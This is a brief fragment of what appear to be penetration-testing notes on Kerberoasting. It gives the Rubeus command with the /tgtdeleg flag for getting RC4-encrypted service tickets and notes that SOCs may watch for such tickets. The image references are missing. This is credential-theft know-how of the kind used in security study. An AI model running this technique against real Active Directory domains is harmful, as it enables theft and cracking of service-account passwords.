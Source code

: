 Default kerberoast
![[Pasted image 20240917090259.png]]

Encrypted kerberoast
![[Pasted image 20240917090311.png]]
```
F:\Rubeus\Rubeus.exe kerberoast /tgtdeleg
```

Even though AES encryption is supported by both parties, a TGS ticket encrypted with RC4 (encryption type 0x17/23) was returned. Note that SOCs may be monitoring for tickets encrypted with RC4:
![[Pasted image 20240917090352.png]]
